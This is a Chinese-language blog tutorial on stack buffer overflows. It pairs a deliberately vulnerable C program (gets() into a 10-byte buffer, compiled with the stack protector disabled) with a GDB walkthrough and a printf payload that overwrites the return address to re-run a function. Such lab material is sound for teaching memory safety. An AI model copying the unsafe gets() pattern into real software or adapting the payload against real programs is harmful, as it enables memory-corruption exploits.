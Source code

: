 ```yaml
---
layout: post
title:  "Stack Over Flow 初探"
date:   2016-01-09 19:53:44
author: sunrainchy
categories: ShellCode
image: http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/hacker.jpg
---
```

从一次实践来了解什么是StackOverFlow，从一段简单的C语言代码入手。
cat exploit.c 
{% highlight ruby %}
void fun_1(void) 
{ 
    printf("This is fun 1\n"); 
    char buffer[10]; 
    gets(buffer); 
} 
int main() 
{ 
    fun_1(); 
}
{% endhighlight %}
保存为：exploit.c

cc -mpreferred-stack-boundary=2 -ggdb exploit.c -o exploit -fno-stack-protector 
-fno-stack-protector 告诉gcc我们不想一栈溢出保护机制进行编译（如果不加上实验会失败）

编译好了先用GDB看一下：
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/gdb-start.png"/>
</div>

执行disassemble 命令，对main函数进行反汇编
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/disassemble-main.png"/>
</div>

可以看到在调用完成fun_1 函数后下一条指令地址是0x0804482b

再看看fun_1 的反汇编结果
disassemble fun_1

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/disassemble-fun-1.png"/>
</div>

分析下这段汇编代码：
{% highlight ruby %}
Dump of assembler code for function fun_1: 
   0x08048404 <+0>: push   %ebp                                    // 基栈寄存器入站，保存
   0x08048405 <+1>: mov    %esp,%ebp                          // 用当前栈顶作为基栈地址
   0x08048407 <+3>: sub    $0x10,%esp                           // 给char buffer[10]; 在栈上分配地址，注意这里分配了16个字节，注意Linux平台栈是从高地址向低地址延伸的
   0x0804840a <+6>: movl   $0x8048500,(%esp)              
   0x08048411 <+13>:    call   0x8048320 <puts@plt>   // 调用printf 输出
   0x08048416 <+18>:    lea    -0xa(%ebp),%eax            // 找到正确的位置进行串的输入
   0x08048419 <+21>:    mov    %eax,(%esp) 
   0x0804841c <+24>:    call   0x8048310 <gets@plt>    //调用gets 输入
   0x08048421 <+29>:    leave  
   0x08048422 <+30>:    ret    

{% endhighlight %}

在这里我们可以设置两个断点，看看此函数返回main 函数下一条指令地址是不是0x0804482b：

{% highlight ruby %}
(gdb) break *0x08048422 
Breakpoint 1 at 0x8048422: file exploit.c, line 7. 

{% endhighlight %}
在最后ret 指令出停止

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/print-esp.png"/>
</div>

看第一行，找到0x0804482b了吧

下面通过栈溢出篡改函数返回执行地址，我们可以看到此函数返回执行地址是 0x0804482b
让我们让程序再调用一次fun_1 函数：
从 disassemble main 可以看到调用fun_1 的时候是这个地址 0x08048426
那我们就将函数返回执行地址篡改成这个：

printf "AAABBBCCCDDDDD\x26\x84\x04\x08" | ./exploit
This is fun 1 
This is fun 1 

输出两个 ”This is fun 1 ” 演示成功

为啥是14个字符后接地址而不是10个呢，原因是基栈寄存器入栈了0x08048404 <+0>:  push   %ebp 
，要将这四个也算上。



